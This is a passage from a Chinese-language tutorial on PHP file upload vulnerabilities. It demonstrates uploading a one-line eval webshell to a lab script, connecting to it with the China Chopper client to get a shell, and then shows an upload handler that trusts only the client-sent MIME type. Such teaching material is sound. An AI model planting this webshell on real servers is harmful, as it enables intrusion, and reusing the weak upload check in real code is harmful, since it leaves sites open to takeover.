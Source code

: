 将其保存为`upfile.php`后，我们首先访问它并尝试上传一个文件。我们把一句话`<?php @eval($_POST['a']) ?>`写入`1.php`，然后把它上传到服务器。

![](http://ww2.sinaimg.cn/large/841aea59jw1faydcsou88j20i805jwen.jpg)

于是我们看到上传成功。

![](http://ww1.sinaimg.cn/large/841aea59jw1faydd7i90hj20hm0bz0t9.jpg)

我们可以看到打印出的文件信息，其中：

+   `userfile`是这个文件在数组中的索引，也是表单中的文件上传输入框的名称。
+   `name`是这个文件的文件名。
+   `type`是这个文件的类型。
+   `tmp_name`是这个文件的临时完整路径。
+   `error`是错误代码。
+   `size`是文件大小。

之后，尝试直接访问所上传的文件，发现访问成功。

![](http://ww2.sinaimg.cn/large/841aea59jw1faydde1z61j20ht065q30.jpg)

然后我们就可以拿菜刀连接了。

![](http://ww1.sinaimg.cn/large/841aea59jw1fayddj2gysj20se0fj3zk.jpg)

我们可以看到连接成功，那么我们就成功地 GetShell 了。

## 文件类型限制

如果`upfile.php`的内容变成这样：

```php
<form action="" method="POST" enctype="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
if(@$_FILES['userfile']['type'] != "image/gif"){
        echo "对不起，我们只允许上传GIF格式的图片!!";
        exit;
}
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo "上传成功！";
else
    echo "上传失败！";
```
